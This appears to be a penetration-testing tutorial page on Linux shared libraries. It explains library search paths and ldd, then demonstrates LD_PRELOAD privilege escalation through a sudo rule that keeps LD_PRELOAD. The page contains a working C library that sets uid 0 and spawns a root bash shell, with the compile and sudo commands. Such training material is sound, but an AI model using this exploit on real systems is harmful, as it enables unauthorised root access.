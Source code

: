 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Shared Libraries

It is common for Linux programs to use dynamically linked shared object libraries. Libraries contain compiled code or other data that developers use to avoid having to re-write the same pieces of code across multiple programs.

Two types of libraries exist in Linux: `static libraries` (denoted by the .a file extension) and `dynamically linked shared object libraries` (denoted by the .so file extension). When a program is compiled, static libraries become part of the program and can not be altered. However, dynamic libraries can be modified to control the execution of the program that calls them.

There are multiple methods for specifying the location of dynamic libraries, so the system will know where to look for them on program execution. This includes the `-rpath` or `-rpath-link` flags when compiling a program, using the environmental variables `LD_RUN_PATH` or `LD_LIBRARY_PATH`, placing libraries in the `/lib` or `/usr/lib` default directories, or specifying another directory containing the libraries within the `/etc/ld.so.conf` configuration file.

Additionally, the `LD_PRELOAD` environment variable can load a library before executing a binary. The functions from this library are given preference over the default ones. The shared objects required by a binary can be viewed using the `ldd` utility.

```shell-session
user@target:~$ ldd /bin/ls

	linux-vdso.so.1 =>  (0x00007fff03bc7000)
	libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f4186288000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4185ebe000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f4185c4e000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f4185a4a000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f41864aa000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f418582d000)
```

The image above lists all the libraries required by `/bin/ls`, along with their absolute paths.

## LD\_PRELOAD Privilege Escalation

Let's see an example of how we can utilise the [LD\_PRELOAD](https://web.archive.org/web/20231214050750/https://blog.fpmurphy.com/2012/09/all-about-ld_preload.html) environment variable to escalate privileges. For this, we need a user with `sudo` privileges.

```shell-session
user@target:~$ sudo -l

Matching Defaults entries for daniel.carter on target:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on target:
    (root) NOPASSWD: /usr/sbin/apache2 restart
```

This user has rights to restart the Apache service as root, but since this is `NOT` a [GTFOBin](https://gtfobins.github.io/#apache) and the `/etc/sudoers` entry is written specifying the absolute path, this could not be used to escalate privileges under normal circumstances. However, we can exploit the `LD_PRELOAD` issue to run a custom shared library file. Let's compile the following library:

{% code title="Library in C" %}
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
{% endcode %}

Then compile the C file:

```bash
gcc -fPIC -shared -o root.so root.c -nostartfiles
```

Finally, we can escalate privileges using the below command. Make sure to specify the full path to your malicious library file.

```shell-session
user@target:~$ sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart

id
uid=0(root) gid=0(root) groups=0(root)
```
